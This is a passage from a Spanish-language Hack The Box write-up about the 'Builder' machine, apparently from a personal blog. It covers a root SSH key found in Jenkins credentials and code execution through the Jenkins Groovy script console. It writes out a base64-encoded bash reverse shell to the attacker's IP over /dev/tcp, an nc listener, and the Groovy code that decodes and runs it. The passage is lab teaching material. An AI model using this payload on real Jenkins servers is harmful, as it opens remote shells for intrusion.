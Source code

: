 Validando algunas rutas, encontramos que la llave privada que vimos antes en el archivo `credentials.xml` está realmente relacionada con el usuario `root` del sistema :O

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-page8080-credentials-store-system-domain-root-private_ssh_key.png" style="width: 100%;"/>

Por lo que cuidao, cuidadito...

## Jenkins y los scripts [📌](#explotacion-jenkins-groovy-script) {#explotacion-jenkins-groovy-script}

Investigando aún más sobre **Jenkins** y que podemos hacer dentro, encontramos este recurso con el cual se puede intentar ejecutar comandos remotamente usando una consola de código [**Groovy**](https://groovy-lang.org/):

* [Jenkins RCE with Groovy Script](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-with-groovy-script)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-page8080-script.png" style="width: 100%;"/>

Si intentamos ejecutar el comando `id` en la víctima **Linux**:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-page8080-script-rce-id.png" style="width: 70%;"/>

¡Tenemos la ejecución de comandos!! Generemos una reverse shell.

Primero creemos nuestro payload (en él le indicaremos que haga una petición contra nuestra IP y nuestro PUERTO, cuando se genere esa conexión, que envié una BASH) en formato **base64** y colocamos en escucha el puerto usado en el payload:

```bash
➧ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.14.79/4450 0>&1'" | base64   
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDUwIDA+JjEn
➧ nc -lvp 4450
```

Ahora, dando el formato correcto al código de **Groovy**, quedaría así:

```groovy
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43OS80NDUwIDA+JjEn}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
```

Ejecutamooooos Y:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/builder/htb591-bash-reverse-shell-jenkins.png" style="width: 100%;"/>

A ña ño ñi (:

# Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Dando algunas vueltas por los objetos y comandos, recordamos algo con lo que lidiamos y que nos pareció poderoso, ¿recuerdas que fue?
